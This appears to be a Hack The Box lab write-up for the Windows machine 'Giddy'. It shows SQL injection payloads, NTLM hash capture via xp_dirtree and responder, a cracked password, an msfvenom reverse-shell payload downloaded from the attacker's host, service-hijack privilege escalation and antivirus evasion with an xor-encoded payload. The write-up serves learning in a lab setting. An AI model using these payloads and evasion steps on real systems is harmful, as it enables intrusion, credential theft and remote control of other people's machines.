 ```yaml
---
layout: post
title: Hack The Box - Giddy
categories: hack-the-box
image: /hackthebox/giddy/0.png
---
```


<hr>
### Quick Summary
#### Hey guys today Giddy retired and this is my write-up. Giddy was a nice windows box , This box had a nice sqli vulnerability which we will use to steal ntlm hashes and login , Then the privilege escalation was a Local Privilege Escalation vulnerability in a software called Ubiquiti UniFi Video which also was a cool vulnerability , I had fun doing this box as it was a challenging one. It's a windows box and its ip is 10.10.10.104 , I added it to `/etc/hosts` as `giddy.htb`. Let's jump right in.
![](/images/hackthebox/giddy/0.png)
<hr>
### Nmap
#### As always we will start with nmap to scan for open ports and services : 
`nmap -sV -sT -sC giddy.htb`
![](/images/hackthebox/giddy/1.png)
#### nmap tells us that port 80 and 443 are open and running http , port 3389 is also open and it says "Microsoft Terminal Services", Let's check http
<br>
<hr>
### HTTP Enumeration
#### On http (port 80) there's only this picture :
![](/images/hackthebox/giddy/2.png)
#### Also the same picture on https (port 443)
![](/images/hackthebox/giddy/3.png)
#### Let's run gobuster with `directory-list-2.3-medium.txt` and see what we will get
`gobuster -u http://giddy.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -to 250s`
#### Results :
```
=====================================================
Gobuster v2.0.0              OJ Reeves (@TheColonial)                                                                                       
=====================================================                                                                                       
[+] Mode         : dir                                                                                                                      
[+] Url/Domain   : http://giddy.htb/                                                                                                        
[+] Threads      : 100                                                                                                                      
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt                                                             
[+] Status codes : 200,204,301,302,307,403                                                                                                  
[+] Timeout      : 4m10s                                                                                                                    
=====================================================                                                                                       
2019/02/15 21:36:09 Starting gobuster                                                                                                       
=====================================================
/remote (Status: 302)
/mvc (Status: 301)
```
#### We got 2 sub directories `/remote` and `/mvc`
#### Let's take a look at `/remote` :
![](/images/hackthebox/giddy/4.png)
#### It redirects us to this page titled as `Windows PowerShell Web Access` , we don't have any credentials so we can ignore this for now and check `/mvc`
![](/images/hackthebox/giddy/5.png)
#### And we get this `ASP.NET` application
<br>
<hr>
### SQLI and getting User
#### After some regular enumeration we will find that when we click on a product name we get something like this :
![](/images/hackthebox/giddy/6.png)
#### The url has a parameter called `ProductSubCategoryId` , and if we try a single quote `'` :
![](/images/hackthebox/giddy/7.png)
#### We get an error saying "Unclosed quotation mark after the character string" so this parameter is sql injectable , let's try something like `1; UPDATE Product SET Name= ''`
![](/images/hackthebox/giddy/8.png)
#### And we see that it dumped the products, we can run responder and use `xpdirtree` to make it try to connect to us , you can read about `xpdirtree` [here](http://www.patrickkeisler.com/2012/11/how-to-use-xpdirtree-to-list-all-files.html)
#### To do this let's run responder first `responder -I tun0`
#### Then let's use `xpdirtree` : `1; EXEC MASTER.sys.xp_dirtree '\\10.10.xx.xx\fakeshare'`
![](/images/hackthebox/giddy/9.png)
#### What is this doing is simply running a fake smb server with responder that steals ntlm hashes , then by using `xpdirtree` we make the server try to connect to our fake smb server. Let's check responder now :
![](/images/hackthebox/giddy/10.png)
#### We captured ntlm hash for a user called `Stacy` , Let's crack the hash with john
![](/images/hackthebox/giddy/11.png)
#### And the password is `xNnWo6272k7x` , let's use the PowerShell Web Access
![](/images/hackthebox/giddy/12.png)
#### We ge this web interface for powershell :
![](/images/hackthebox/giddy/13.png)
#### We can get the user flag now :
![](/images/hackthebox/giddy/14.png)
#### And we owned user !
<hr>
### unifivideo local privilege escalation
#### If we return to `Documents` again we will find a file called `unifivideo`
![](/images/hackthebox/giddy/15.png)
<br>
> UniFi Video is a powerful and flexible, integrated IP video management
surveillance system designed to work with Ubiquiti’s UniFi Video Camera product
line. UniFi Video has an intuitive, configurable, and feature‑packed user
interface with advanced features such as motion detection, auto‑discovery,
user-level security, storage management, reporting, and mobile device support.
<br>

#### A quick google search and we will find that an old version of unifivideo had a local privilege escalation vulnerability , check it [here](https://www.exploit-db.com/exploits/43390)
#### What's happening is , Upon the start of the service "Ubiquiti UniFi Video" it tries to execute a file called `taskkill.exe` in `C:\ProgramData\unifi-video\` but that file doesn't exist by default , if we have write permissions to that directory we can place our payload there as `taskkill.exe` then restart the service. And because the service runs with privileged permissions , it will be excuted as administrator.
#### Let's first create a payload with msfvenom :
`msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.10.xx.xx LPORT=1337 -f exe > taskkill.exe`
![](/images/hackthebox/giddy/16.png)
#### We will set up the handler on metasploit :
`use multi/handler`
<br>
<br>
`set payload windows/meterpreter_reverse_tcp`
<br>
<br>
`set LHOST 10.10.xx.xx`
<br>
<br>
`set LPORT 1337`
#### Then we will run a simple http server with python to host the payload
`python -m SimpleHTTPServer 80`
#### After that we will download the file , since we are on powershell we can do this :
`Invoke-WebRequest -o taskkill.exe http://10.10.xx.xx/taskkill.exe`
#### Then we will stop the service :
`Stop-Service "Ubiquiti UniFi Video"`
![](/images/hackthebox/giddy/17.png)
#### Start it again :
`Start-Service "Ubiquiti UniFi Video"`
![](/images/hackthebox/giddy/18.png)
#### Let's check our listener
![](/images/hackthebox/giddy/19.png)
#### We didn't get a meterpreter session !
<br>
<hr>
### Evading anti-virus and getting root
#### We didn't get a meterpreter session because there's some kind of anti-virus blocking our payload , so what i'm going to do is to use a framework called `phantom evasion` , you can get it from [github](https://github.com/oddcod3/Phantom-Evasion)
![](/images/hackthebox/giddy/20.png)
#### We will use [1] windows modules , then [1] shellcode injection , [4] windows shellcode injection heapalloc , after that it will ask for the payload :
![](/images/hackthebox/giddy/21.png)
#### We will choose Msfvenom 
#### And for encoding we will choose [4] x86/xor_dynamic + Triple Multibyte-key xor:
![](/images/hackthebox/giddy/22.png)
#### It will ask for adding multi processes behaviour , stripping and signing the executable , we will say no to all of them , then finally we will have our payload.
#### We will repeat what we did with the other payload again , and let's check our listener : 
![](/images/hackthebox/giddy/23.png)
#### We got a meterpreter session and owned root !
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### Previous Hack The Box write-up : [Hack The Box - Ypuffy](/hack-the-box/ypuffy/)
<hr>
